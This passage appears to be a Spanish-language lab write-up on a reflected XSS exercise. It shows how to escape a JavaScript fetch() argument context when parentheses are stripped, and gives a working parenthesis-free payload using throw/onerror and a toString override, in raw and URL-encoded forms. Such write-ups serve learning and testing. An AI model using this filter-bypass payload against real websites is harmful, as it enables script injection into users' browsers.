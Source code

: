 
Filtramos por la cadena script para buscar la instruccion que hace la funcion Fetch

Debemos de encontrar la forma de salir del contexto de la funcion de fetch, añadiendo caractes que nos permitan agregar mas de un paramtro dentro de la funcion, con el fin de agregar el alert(1)

Pero vemos que nos quita los parentesis, entonces debemos de buscar alguna forma de bypassear esos parentesis del alert, para ello buscamos lo siguiente:

javascript funcion flecha la cual se puede representar de esta forma:

```javascript
<script>x=x=>{throw/**/onerror=alert,9},toString=x,window+''</script>
```

si lo ejecutamos en el navegador se muestra el alert con la exception

![](Pasted%20image%2020250711150839.png)

La cadena a inyectar seria la siguiente

```javascript
2&'},x=x=>{throw/**/onerror=alert,9},toString=x,window+'',{x:'

// Ponemos el + en formato URL encode
2&'},x=x=>{throw/**/onerror=alert,9},toString=x,window%2b'',{x:'

```

